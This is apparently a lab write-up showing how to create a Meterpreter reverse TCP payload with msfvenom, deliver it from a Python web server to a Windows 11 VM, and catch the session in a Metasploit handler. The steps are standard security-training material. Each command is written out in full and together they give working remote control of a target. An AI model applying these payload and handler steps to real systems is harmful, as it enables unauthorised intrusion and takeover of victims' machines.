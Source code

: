 # Windows 11 Meterpreter Payload Demonstration

### Objective:

Demonstrate the process of creating, delivering, and executing a malicious payload to establish remote access/control to a Windows 11 machine.

### Test Environment:

The simulated test environment consists of two virtual machines:
* **Kali Linux VM:** Acts as the attacker machine.
* **Windows 11 VM:** Serves as the target machine.

### Tools:

* **VMware**
* **Kali Linux**
* **Metasploit**


## Steps

### 1. Obtain host IP address

```
ifconfig
```

### 2. Payload Creation with MSFvenom

MSFvenom is a component of the Metasploit framework used to create payloads for the exploitation of target devices.

The payload created will execute as an `.exe` file named “plague”. The `plague.exe` file is configured with the Kali Linux machine’s IP (LHOST) and listening port (LPORT). When executed in the target machine, the file will connect to our Kali Linux machine to establish a bridge between our target and attacking machine.

**Payload Creation Command:**
``` 
msfvenom -p windows/x64/meterpreter\_reverse\_tcp \\

LHOST=<IP-ADDRESS> \\

LPORT=1122 \\

\-f exe \\

\-o plague
```
*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

![image](https://github.com/user-attachments/assets/4c3ef797-f4cf-47bb-89f7-51250ae8a0fa)


### 3. Create Python Webserver for Payload Delivery

To transfer the malicious plague.exe file to our target, I will utilize a python server created on my local subnet. Real world scenarios would involve social engineering, cross-site scripting (XSS), phishing, etc.

**Initiate the Python 3 HTTP Server on Port 8080:**
```
python3 -m http.server 8080
```
![image](https://github.com/user-attachments/assets/af23b722-f206-4dfe-90cc-3f8428ead2a1)


### 4. Configuring Metasploit Handler

When our payload is deployed, our Kali Linux machine will need to be ready to accept the incoming connection from our payload. To receive the incoming connection, we will configure a Metasploit handler.

**Launch Metasploit:**
```
sudo msfconsole
```

**Initiate Handler:**

The handler will listen for incoming connections from the payload.

```
use exploit/multi/handler
```
![image](https://github.com/user-attachments/assets/60836d48-9869-4cfa-9966-95d700cf34c5)


### 5. Define Expected Payload

The handler is configured to the correct specifications of our payload and target machine. Our target machine is a Windows 11 machine running on 64-bit OS with payload communication from a meterpreter\_reverse\_tcp payload

**Set Handler Specifications:**

```
set payload windows/x64/meterpreter\_reverse\_tcp

options
```

![image](https://github.com/user-attachments/assets/13e72301-ba0d-4937-a615-5d452c8bd670)


Executing the options command will display the parameters for the handler. To ensure proper connection, we will need to configure the parameters to our plague.exe payload.

**Set the Listening Host and Port:**

```
set LHOST <ip-address>

set LPORT 1122
```
*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

### 6. Execute Exploit

```
exploit
```
![image](https://github.com/user-attachments/assets/032345ea-98a9-4b3b-8734-45d351c059a9)


### 7. Payload Delivery and Execution

From the Windows 11 target machine, we must navigate to our Python 3 HTTP server.

**Input Address to HTTP Server:**

```
<ip-address>:8080
```
![image](https://github.com/user-attachments/assets/54a2a28a-f0fa-4b92-9d2e-7a1b90a98a9e)


*Replace `<IP-ADDRESS>` with the actual IP address obtained in Step 1.*

Click `plague.exe` to download the payload onto the target system and run the payload.

![image](https://github.com/user-attachments/assets/aeb0ce4e-ee43-4818-8738-6c5b8b2cd6a7)

### 8. Session Confirmation and Control

Upon successful execution of the `plague.exe` payload on the Windows 11 target, a **Meterpreter session** is established on the attacking Kali Linux machine. Control has now been established - granting command-line interface (CLI) and system access to the target machine.
![image](https://github.com/user-attachments/assets/170f1f21-fe83-4cd5-8ce9-df2538fc87e1)




